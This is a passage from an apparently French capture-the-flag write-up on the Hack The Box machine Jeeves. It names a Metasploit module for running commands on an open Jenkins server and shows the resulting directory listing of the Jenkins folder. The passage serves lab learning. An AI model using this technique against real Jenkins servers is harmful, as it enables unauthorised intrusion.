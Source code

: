 ![Jeeves HTB open Jenkins installation](https://raw.githubusercontent.com/devl00p/blog/master/images/htb_jeeves/jeeves_jenkins.png)  

Boss de milieu de jeu
---------------------

Le module *Metasploit* *auxiliary/scanner/http/jenkins\_command* permet de faire facilement exécuter des commandes avec les droits du service qui s'avère être l'utilisateur *jeeves\kohsuke*.  

On peut ainsi lister le contenu du dossier Jenkins :  

```plain
[+] 10.10.10.63:50000     Directory of C:\Users\Administrator\.jenkins
[+] 10.10.10.63:50000     
[+] 10.10.10.63:50000     04/17/2018  09:36 AM    <DIR>          .
[+] 10.10.10.63:50000     04/17/2018  09:36 AM    <DIR>          ..
[+] 10.10.10.63:50000     04/17/2018  09:42 AM                48 .owner
[+] 10.10.10.63:50000     04/17/2018  09:36 AM             1,433 config.xml
[+] 10.10.10.63:50000     04/17/2018  09:34 AM             1,400 FJUyqDTmCFV.bat
[+] 10.10.10.63:50000     04/17/2018  08:34 AM               156 hudson.model.UpdateCenter.xml
[+] 10.10.10.63:50000     04/17/2018  08:58 AM             1,178 hudson.plugins.emailext.ExtendedEmailPublisher.xml
[+] 10.10.10.63:50000     11/03/2017  10:43 PM               374 hudson.plugins.git.GitTool.xml
[+] 10.10.10.63:50000     11/03/2017  10:33 PM             1,712 identity.key.enc
[+] 10.10.10.63:50000     04/17/2018  08:40 AM             2,295 jeeves-veil.bat
[+] 10.10.10.63:50000     04/17/2018  09:36 AM                94 jenkins.CLI.xml
[+] 10.10.10.63:50000     04/17/2018  09:28 AM           102,552 jenkins.err.log
[+] 10.10.10.63:50000     11/03/2017  10:47 PM           360,448 jenkins.exe
[+] 10.10.10.63:50000     11/03/2017  10:47 PM               331 jenkins.exe.config
[+] 10.10.10.63:50000     04/17/2018  08:34 AM                 4 jenkins.install.InstallUtil.lastExecVersion
[+] 10.10.10.63:50000     11/03/2017  10:45 PM                 4 jenkins.install.UpgradeWizard.state
[+] 10.10.10.63:50000     04/17/2018  09:36 AM               138 jenkins.model.DownloadSettings.xml
[+] 10.10.10.63:50000     12/24/2017  03:38 PM             2,688 jenkins.out.log
[+] 10.10.10.63:50000     04/17/2018  08:32 AM                 4 jenkins.pid
[+] 10.10.10.63:50000     04/17/2018  09:36 AM               169 jenkins.security.QueueItemAuthenticatorConfiguration.xml
```